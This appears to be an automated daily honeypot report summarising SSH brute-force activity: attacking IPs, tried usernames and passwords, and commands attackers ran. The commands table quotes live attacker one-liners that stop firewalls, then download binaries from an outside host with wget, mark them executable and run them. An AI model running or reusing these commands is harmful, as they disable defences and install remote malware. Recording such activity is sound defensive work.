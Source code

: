 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 120.79.198.68 | 11833 |
| 8.134.15.69 | 4668 |
| 149.129.249.160 | 4598 |
| 8.218.103.79 | 4214 |
| 47.251.41.26 | 3704 |
| 59.110.221.129 | 3076 |
| 118.31.22.32 | 1472 |
| 120.78.6.26 | 1369 |
| 209.141.59.175 | 252 |
| 120.26.104.57 | 159 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 651 |
| nagios | 508 |
| dammit | 507 |
| cpanel | 505 |
| service | 504 |
| alpha | 503 |
| cesar | 503 |
| mailman | 503 |
| scan | 502 |
| anaconda | 501 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 266 |
| 123 | 39 |
| 1234 | 32 |
| P@ssw0rd | 29 |
| test | 21 |
| password | 21 |
| test123 | 20 |
| Aa123456 | 20 |
| 12345678 | 19 |
| password123 | 18 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 223.113.69.98 | uname -s -m |
| 47.251.162.185 | uname -s -m |
| 209.141.59.175 | /etc/init.d/iptables stop;service iptables stop;SuSEfirewall2 stop;reSuSEfirewall2 stop;wget -c http://209.141.59.175:8989/Lin2.4;chmod 777 Lin2.4;./Lin2.4; |
| 209.141.59.175 | /etc/init.d/iptables stop;service iptables stop;SuSEfirewall2 stop;reSuSEfirewall2 stop;wget -c http://209.141.59.175:8989/Lin2.6;chmod 777 Lin2.6;./Lin2.6; |
| 209.141.59.175 | /etc/init.d/iptables stop;service iptables stop;SuSEfirewall2 stop;reSuSEfirewall2 stop;wget -c http://209.141.59.175:8989/lin-arm;chmod 777lin-arm;./lin-arm; |
| 209.141.59.175 | /etc/init.d/iptables stop;service iptables stop;SuSEfirewall2 stop;reSuSEfirewall2 stop;wget -c http://209.141.59.175:8989/lin-mips;chmod 777 lin-mips;./lin-mips; |
| 209.141.59.175 | /etc/init.d/iptables stop;service iptables stop;SuSEfirewall2 stop;reSuSEfirewall2 stop;wget -c http://209.141.59.175:8989/ddwrt;chmod 777 ddwrt;./ddwrt; |
| 209.141.59.175 | chmod 777 lin-arm;./lin-arm; |
| 209.141.59.175 | ./lin-mips |
| 209.141.59.175 | ./ddwrt |
| 120.26.104.57 | uname -s -m |
